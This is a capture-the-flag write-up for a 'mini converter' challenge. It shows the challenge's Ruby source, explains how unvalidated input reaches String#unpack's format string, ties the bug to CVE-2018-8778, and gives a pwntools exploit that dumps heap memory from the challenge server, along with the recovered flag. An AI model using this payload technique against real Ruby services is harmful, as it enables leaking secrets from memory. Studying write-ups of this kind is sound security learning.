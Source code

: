 mini converter
==================

We are given the following ruby code:
```ruby
flag = "FLAG{******************************}"
# Can you read this? really???? lol

while true

    puts "[CONVERTER IN RUBY]"
    STDOUT.flush
    sleep(0.5)
    puts "Type something to convert\n\n"
    STDOUT.flush
    puts "[*] readme!"
    STDOUT.flush
    puts "When you want to type hex, contain '0x' at the first. e.g 0x41414a"
    STDOUT.flush
    puts "When you want to type string, just type string. e.g hello world"
    STDOUT.flush
    puts "When you want to type int, just type integer. e.g 102939"
    STDOUT.flush

    puts "type exit if you want to exit"
    STDOUT.flush

    input = gets.chomp
    puts input
    STDOUT.flush

    if input  == "exit"
        file_write()
        exit

    end

    puts "What do you want to convert?"
    STDOUT.flush

    if input[0,2] == "0x"
        puts "hex"
        STDOUT.flush
        puts "1. integer"
        STDOUT.flush
        puts "2. string"
        STDOUT.flush

        flag = 1
    
    elsif input =~/\D/
        puts "string"
        STDOUT.flush
        puts "1. integer"
        STDOUT.flush
        puts "2. hex"
        STDOUT.flush

        flag = 2
    
    else
        puts "int"
        STDOUT.flush
        puts "1. string"
        STDOUT.flush
        puts "2. hex"
        STDOUT.flush

        flag = 3
    end

    num = gets.to_i

    if flag == 1
        if num == 1
            puts "hex to integer"
            STDOUT.flush
            puts Integer(input)
            STDOUT.flush

        elsif num == 2
            puts "hex to string"
            STDOUT.flush
            tmp = []
            tmp << input[2..-1]
            puts tmp.pack("H*")
            STDOUT.flush
        
        else
            puts "invalid"
            STDOUT.flush
        end

    elsif flag == 2
        if num == 1
            puts "string to integer"
            STDOUT.flush
            puts input.unpack("C*#{input}.length")
            STDOUT.flush
    
        elsif num == 2
            puts "string to hex"
            STDOUT.flush
            puts input.unpack("H*#{input}.length")[0]
            STDOUT.flush
    
        else
            puts "invalid2"
            STDOUT.flush
        end

    elsif flag == 3
        if num == 1
            puts "int to string"
            STDOUT.flush
    
        elsif num == 2
            puts "int to hex"
            STDOUT.flush
            puts input.to_i.to_s(16)
            STDOUT.flush
        else
            puts "invalid3"
            STDOUT.flush
        end

    else
        puts "invalid4"
        STDOUT.flush

    end

end

```

Variable `flag`, which holds the flag string, is overwritten with either 1, 2 or 3 as our input type. Our job is to somehow recover that data.

The two conversion cases `"string to integer"` and `"string to hex"` immediately caught my attention since it looked *so offending*. Variable `input` which is completely controlled by our input is interpolated into [format string of String#unpack](https://www.rubydoc.info/stdlib/core/String:unpack) without any validation whatsoever.

The intended code is probably something like:
```ruby
input.unpack("C*#{input.length}")
```
instead of the given
```ruby
input.unpack("C*#{input}.length")
```

### **Format-string bug?**

After minutes of googling, I found a FSB-style vulnerability + integer overflow in `String#unpack` of Ruby version < 2.5.1 known as [CVE-2018-8778](https://nvd.nist.gov/vuln/detail/CVE-2018-8778). A good article explaining the vulnerability is located [here](https://blog.sqreen.io/buffer-under-read-ruby/).

The vulnerability can be used to acquire arbitrary read, as we can specify any offset and data length to read. By leaking heap memory of lower address, we are able to read the original flag.

Since `"string to integer"` case allows us to print a whole array instead of `"string to hex"` case which prints only the first element, the former is used. Below is the exploit code.

```python
from pwn import *

#context.log_level = 'debug'

p = remote('110.10.147.105', 12137)

p.recvuntil('to exit\n')

targlen = 0x10000
for i in range(1, 100):
    payload = 'a @{}a{} '.format(2**64 - targlen*i + 1, targlen + 0x100)
    p.sendline(payload)
    p.recvuntil('hex\n')
    p.sendline('1')
    print('memdump #{}'.format(i))
    data = p.recvuntil('to exit\n')
    if 'FLAG{' in data:
        st = data.find('FLAG{')
        print data[st:data.find('}', st)+1]
        break
```

The exploit code dumps `0x10100` continuous bytes at offset `-0x10000*i` in each loop. When the flag string prefix `'FLAG{'` is found, we print out until the matching end `'}'`.

**FLAG: `Run away with me.It'll be the way you want it`**